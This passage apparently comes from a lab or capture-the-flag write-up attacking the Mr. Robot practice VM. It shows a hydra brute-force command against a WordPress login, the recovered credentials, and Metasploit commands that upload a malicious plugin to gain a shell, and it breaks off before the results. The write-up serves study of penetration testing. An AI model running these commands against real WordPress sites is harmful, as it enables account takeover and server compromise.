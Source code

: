 **Valid username discovered:** `elliot`

**Step 2: Password brute force**
**Command executed:**

```bash
hydra -l elliot -P fsocity_filtered.dic 192.168.1.56 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```

**Execution results:**

![[Pasted image 20250401175132.png]]

**Valid credentials discovered:**

- **Username**: `elliot`
- **Password**: `ER28-0652`


**Analysis:**
The successful brute force attack yielded valid administrator credentials for the WordPress installation. The reference to "ER28-0652" is notable as it appears to be a reference to the Mr. Robot TV series, demonstrating how themed or contextual passwords can sometimes be predictable.

### WordPress Admin Access

Using the discovered credentials, access to the WordPress admin panel was obtained. Exploration of the WordPress dashboard revealed:

- WordPress version 5.4.2
- Limited content (no posts or pages)
- One additional user: mich05654 (non-administrator)
- Full administrative privileges for the elliot user


### WordPress Shell Upload

To establish a persistent foothold on the system, Metasploit was used to upload a malicious WordPress plugin:

**Commands executed:**

```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 192.168.1.56
set USERNAME elliot
set PASSWORD ER28-0652
set wpcheck false
exploit
```

**Execution results:**

![[Pasted image 20250401175144.png]]

**Key events:**
